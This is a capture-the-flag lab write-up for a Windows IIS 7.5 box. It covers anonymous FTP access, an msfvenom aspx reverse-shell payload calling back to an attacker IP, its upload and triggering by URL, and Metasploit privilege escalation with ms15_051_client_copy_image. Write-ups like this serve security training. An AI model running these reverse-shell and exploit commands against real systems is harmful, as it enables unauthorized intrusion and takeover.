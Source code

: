 1.  Run Nmap to discover any interesting open ports from the web server.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dee42697-4562-4730-9aa2-7a049254a00b)

2. The web using IIS 7.5 and there are some vulnerabillities that are related to the services.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3cf4a592-3223-4bee-97b7-606722736c03)

3. Realizes that port 21 inside the web server is opened. Let's sign in with user name anonymous and just blank for the password.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/833abcbe-1c65-46bb-982e-65f5dc0a7ef9)

4. Checking any interesting information and found some file. I tried to opened in my browser and it works!
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/23a1d4db-ba4e-4c39-86c8-6a931384bd0f)

Proof:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cc3b2bf9-9c3e-4717-bb56-71e961fcb2e1)

5. Because of this vuln, I make a new payload file for reverse shell with help of msfvenom and transfer it to victim FTP and run the file.

Command: msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.22 lport=777 -f aspx > payload.aspx
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d11f9518-c840-4a5d-a61a-876d55ea2016)


Victim Terminal (Use put to transfer the file):<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/98972545-bbdc-4471-a666-328716957e64)

Run:<br> 
Command: http://10.10.10.5/payload.aspx<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/17f85445-4d56-4e8f-b3db-79539a970c7a)

6. Yes, i successfuly take the victim shell, but unfortunately, user directory cannot be access.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5d606960-ac08-4a9e-b0a3-9fab8d0b0717)

7. It's a dead end. To resolve this, I use suggester to find anything that vulnerable inside the web with following commands.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/54996220-7a8f-4475-855e-b46a1d3a4976)

Command 1: use exploit/multi/handler <br>
Command 2: set payload windows/meterpreter/reverse_tcp <br>
Command 3: SET LHOST and LPORT <br>
Command 4: run post/multi/recon/local_exploit_suggester<br>

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/99350759-4512-48d1-beeb-f364e809f10e)

Result:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f1603a3c-4ef0-4498-ba3f-41f4ee885313)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bb6f5413-30bc-4d7b-bfef-fc3383399c08)

8. The ms15 exploit payload looks interesting which is about client copy image script. Let's use it.

Payload: exploit/windows/local/ms15_051_client_copy_image

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6e719dd0-975a-4d3f-9c00-6a859bbca416)

Result: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5697ae40-ec0d-4901-9182-562c6fdeb197)

9. I successfuly gained the root privelege with the script. The user flag can be found in /babis/Desktop/user.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c4b8d9a6-1b79-4176-b5b9-45e7a5c14c94)

10. For the root flag is located in /Administrator/Desktop/root.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/abf81c41-6a08-4396-9d0b-8b9cb20a12f6)



















